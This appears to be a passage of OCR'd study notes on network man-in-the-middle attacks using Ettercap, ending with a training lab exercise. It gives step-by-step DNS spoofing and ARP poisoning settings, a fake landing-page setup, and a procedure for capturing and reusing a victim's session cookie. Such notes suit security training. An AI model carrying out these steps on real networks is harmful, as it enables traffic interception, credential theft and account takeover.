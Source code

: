 ```
# if you use iptables:
  (Delete the comment # from both lines)
```
```
root# nano /etc/ettercap/etter.dns
#####################################
*       A    192.168.1.101 <- (Attackers Address)
```
Now edit the HTML page located at /var/www/html/index.html for their landing page.
```
root# ettercap -g

Primary Interface -> eth1
Scan for host
Host List
Victim Target 1
Default Gateway Target 2
Manage Plugins -> dns_spoof
Globe -> ARP Poisoning
Sniff Remote Connections (popup)
root# service apache2 start
```
Session Hijacking:
```
open ettercap
Select Unified Sniffing
Primary Interface -> eth*
Select MITM
DNS Spoofing
Enter Default Gateway
Enter DNS Server
Have the Victim Release/Renew somehow... ipconfig /release /renew
They go to the website enter credentials, ettercap receives the session ID
Copy session ID cookie and enter it into Chrome for you
```

Example:

Use Ettercap to begin sniffing and scanning for hosts.
- Set Exec (192.168.0.30) as the target machine
- Initiate DNS spoofing.
- From Exec, access rmksupplies.com.
- Complete this lab as follows:
```
From the Favorites bar, open Ettercap.
- Select Sniff.
- Select Unified sniffing.
- From the Network Interface drop-down list, select eth*.
- Select OK.
- Select Hosts and select Scan for hosts.
Set Exec (192.168.0.30) as the target machine as follows:
- Select Hosts and select Host list.
- Under IP Address, select 192.168.0.30.
- Select Add to Target 1 to assign it as the target.
Initiate DNS spoofing as follows:
- Select Plugins.
- Select Manage the plugins.
- Select the Plugins tab.
- Double-click dns_spoof to activate it.
- Select Mitm.
- Select ARP poisoning.
- Select Sniff remote connections.
- Select OK.
From Exec, access rmksupplies.com as follows:
- From the top navigation tabs, select Floor 1 Overview.
```